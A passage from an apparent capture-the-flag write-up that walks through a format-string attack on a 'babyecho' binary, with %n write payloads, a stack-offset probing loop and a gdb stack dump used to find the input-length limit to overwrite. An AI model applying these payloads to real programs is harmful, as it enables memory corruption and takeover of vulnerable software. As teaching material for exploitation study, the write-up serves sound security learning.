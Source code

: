 So it crashed while trying to write 0x4 - a value we sort of control - into 0x41414141 - a value we totally control.

Of course, writing the value 0x4 every time is boring, but we can change to anything - let's try to make it 0x80:

<pre>
$ <span class='in'>echo -e 'AAAA%124x%7$n' | ./babyecho</span>
Reading 13 bytes
AAAA                                                                                                                           d%
Reading 13 bytes

Reading 13 bytes
</pre>

Uh oh! What happened?

Unfortunately, that string is one byte too long, which means the %n isn't getting hit. We need to deal with this pesky length problem!

<h2>Making it longer</h2>

The maximum length for the string is 13 - 0x0d - bytes. Presumably that value is stored on the stack somewhere, and it is:

<pre>
$ <span class='in'>for i in `seq 1 2000`; do echo -e "$i:0x%$i\$x" | ./babyecho; done | grep ":0xd$"</span>
1:0xd
4:0xd
246:0xd
385:0xd
</pre>

The problem is, to write that, we need an absolute address. "AAAA%7$n" writes to the address "AAAA", but we need to know which address those 0xd's live at.

There are a lot of different ways to do this, but none of them are particularly nice. One of the easiest ways is to use one of those corefiles from earlier, grab the 'esp' register (the stack pointer), and read upwards from esp till we hit the top of the stack.

The most recent corefile was caused by trying to write to 0x41414141, which is just fine. We're going to basically read everything on the stack at the time it crashed (somewhere in printf()):

<pre>
(gdb) <span class='in'>x/i $eip</span>
=&gt; 0x8080c2a:   mov    DWORD PTR [eax],ecx
(gdb) <span class='in'>print/x $esp</span>
$2 = 0xffff9420
(gdb) <span class='in'>x/10000xw $esp</span>
0xffff9420:     0xffff94b0      0x00000000      0x0000001c      0x00000000
0xffff9430:     0x00000000      0x00000000      0x00000000      0x00000000
0xffff9440:     <span class='in'>0x0000000d</span>      0x00000000      0x00000000      0x0000000a
...
0xffff9460:     0x00000000      <span class='in'>0x0000000d</span>      0x00000000      0x00000000
...
0xffffc690:     <span class='in'>0x0000000d</span>      0xffffc69c      0x00000000      0x41414141
0xffffc680:     0xffffc69c      <span class='in'>0x0000000d</span>      0x0000000a      0x00000000
...
0xffffca50:     0x00000028      0x00000007      <span class='in'>0x0000000d</span>      0x00008000
0xffffdff0:     0x65796261      0x006f6863      0x00000000      0x00000000
0xffffe000:     Cannot access memory at address 0xffffe000
</pre>
